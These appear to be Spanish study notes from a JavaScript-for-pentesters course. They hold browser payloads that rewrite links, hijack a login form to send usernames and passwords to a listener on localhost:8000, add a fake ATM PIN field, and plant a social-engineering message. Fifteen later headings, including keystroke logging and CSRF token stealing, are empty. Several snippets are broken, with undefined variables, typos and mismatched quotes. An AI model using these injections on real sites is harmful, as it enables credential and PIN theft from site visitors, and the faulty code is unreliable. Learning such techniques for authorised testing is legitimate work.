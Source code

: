 #### CallBack
> Recibir como parámetro a una función  
> Es una forma de asegurarnos de q un determinando codigo no se ejecuta hasta que otro codigo haya terminado de ejecutarse

### 1. Modificar HTML
**getElementsByTagName()** acepta un nombre de etiqueta y devuelve una colección HTML en vivo de elementos con el nombre de etiqueta coincidente en el orden en que aparecen en el documento.

```
document.getElementsByTagName("button")[0].innerHTML="JAVASCRIPT";
document.getElementsByTagName("h1")[0].innerHTML="Found";
```

### 2. Modificar los links
```
var links = document.getElementsByTagName("a");
for  (i=0; i<links.length; i++){
  links[i].href = "http://debiantano.github.io";
  links[i].innerHTML = "Link Modificado";
}
```

### 3. Hijack form submit
```
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  alert(username + ' : ' + password);
}
document.forms[0].onsubmit = InterceptForm;
```

```
> python -m SimpleHTTPServer 8000
function InterceptForm(){
  var username = document.forms[0].elements[0].value;
  var username = document.forms[0].elements[1].value;
  new Image().src = "http://localhost:8000/?username=' + username + "&password=" + password;
}
document.forms[0].onsubmit = InterceptForm;
```

### 4. Modify form fields
```
var input = document.createElement("input");

input.setAttribute("type", "text");
input.setAttribute("class", "input-block-level");
input.setAttribute("placeholder", "ATM PIN");
input.setAttribute("name", "atmpin");

var provius = document.forms[0].elements[0];

document.forms[0].insertBefore(input, previous);
docuemnt.forms[0].action = "http://localhost:8000/"
```

### 5. Ingenieria social
```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
```

```
var input = document.createElement("h2");
input.innerHTML = "Sitio web subido. Por favor visita pentesteracademy.com";
document.forms[0].parentNode.appendChild(input)
document.forms[0].parentNode.appendChild(document.forms[0)
```

### 6. Capture all clicks
```
function CaughtClick(){
  alert("You clicked");
}
document.body.addEventListener('click', CaughtClick, true);


```

### 7. Keystroke logging
### 8. Event listener
### 9. Include external
### 10. Include external js using
### 11. Solution replace banner
### 12. Solution Stealing from autocomplete
### 13. Posting with xmlHTTPrequest
### 14. Fetching data with xmlHTTPrequest
### 15. Data exfiltration with xmlHTTPrequest
### 16. Extraching CSRF tokens
### 17. CSRF token stealing
### 18. HTML parsing of xmlHTTPrequest response
### 19. Solution multilevel html parsing
### 20. Solution multilevel js parsing
### 21. Solution multilevel xml parsing

